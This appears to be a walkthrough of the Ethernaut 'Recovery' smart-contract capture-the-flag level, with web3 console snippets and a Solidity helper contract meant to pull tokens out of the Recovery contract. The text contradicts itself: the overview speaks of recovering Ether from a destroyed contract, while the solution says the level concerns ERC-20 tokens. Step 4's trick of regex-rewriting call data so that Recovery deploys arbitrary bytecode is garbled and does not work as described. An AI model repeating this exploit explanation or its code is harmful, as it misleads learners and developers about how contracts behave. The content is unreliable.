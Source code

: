 # Level 17: Recovery

## Challenge Overview

This challenge illustrates the importance of understanding contract destruction and the recovery of funds sent to destroyed contracts.  
The goal is to identify and recover Ether held by a destroyed contract.



## Solution

The `Recovery` contract holds newly created `SimpleToken` instances and has no withdrawal function,  
so any tokens sent to Recovery appear stuck. To recover them, you don’t need to compute a destroyed-contract address or use `selfdestruct` on Ether—this challenge is about **ERC-20 tokens**.



## How to Exploit

### 1. Find the Token’s Address

Whenever you called `generateToken("Name","SYM")` on Recovery, it deployed a `SimpleToken` and saved its address in the public array `tokenContracts`.  
To recover tokens from the first generated token, do:

```javascript
// 'contract' is the Recovery instance
const tokenAddr = await contract.tokenContracts(0);
console.log("Token address:", tokenAddr);
```



### 2. See How Many Tokens Recovery Holds

```javascript
const stuck = await web3.eth.call({
  to: tokenAddr,
  data: web3.eth.abi.encodeFunctionSignature("balanceOf(address)") +
        web3.eth.abi.encodeParameter("address", contract.address).slice(2)
});
console.log("Recovery holds:", web3.utils.toBN(stuck).toString());
// e.g. "1000000000000000000000" (1,000 tokens * 10^18)
```



### 3. Deploy a Helper That “Acts as Recovery” to Call `transfer`

When `SimpleToken.transfer(...)` runs, `msg.sender` must be the address holding tokens — in this case, the **Recovery** contract.  
By having Recovery itself deploy a tiny helper whose constructor calls `token.transfer(player, amount)`,  
you ensure `msg.sender == recovery.address`.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface ISimpleToken {
    function transfer(address to, uint256 amount) external;
}

contract RecoveryHelper {
    constructor(address tokenAddr, address to, uint256 amount) {
        // This runs with msg.sender == Recovery
        ISimpleToken(tokenAddr).transfer(to, amount);
        selfdestruct(payable(msg.sender)); // optionally remove helper
    }
}
```



### 4. Have Recovery Deploy `RecoveryHelper` in One Shot

In the Ethernaut console, replace the usual `generateToken` call’s bytecode with `RecoveryHelper`'s and have Recovery create it:

```javascript
// Compile RecoveryHelper in Remix, copy its deploy bytecode:
const helperBytecode = "<...RecoveryHelper bytecode...>";

// Pack generateToken’s selector + dummy args:
const selector = web3.eth.abi.encodeFunctionSignature("generateToken(string,string)");
const dummyData = selector +
  web3.eth.abi.encodeParameter("string","x").slice(2) +
  web3.eth.abi.encodeParameter("string","y").slice(2);

// Overwrite the bytecode segment so Recovery deploys RecoveryHelper instead:
const payload = dummyData.replace(
  /^8x[0-9a-fA-F]{8}[0-9a-fA-F]+/,
  helperBytecode
);

// Send the transaction so Recovery’s new CREATE runs RecoveryHelper’s constructor:
// Pass (tokenAddr, player, stuck) as the arguments in order
await sendTransaction({
  from: player,
  to: contract.address,
  data: payload
});
```



### 5. Verify & Submit in Ethernaut Console

```javascript
const final = await web3.eth.call({
  to: tokenAddr,
  data: web3.eth.abi.encodeFunctionSignature("balanceOf(address)") +
        web3.eth.abi.encodeParameter("address", player).slice(2)
});
console.log("Player now has:", web3.utils.toBN(final).toString()); // should equal stuck
```



## Lessons Learned

- This level is about recovering **tokens**, not Ether—don’t confuse `SELFDESTRUCT` tricks with ERC-20 logic.
- You can simply use `tokenContracts(index)` to look up each token’s address—you don’t need to calculate it manually.
- Only the current holder can call `transfer(...)`. By having Recovery create a helper contract, we make Recovery itself call `transfer`, so it sends the stuck tokens back.
- If your contract accepts tokens but has no way to send them out, a poorly designed contract may “lock” user tokens forever.

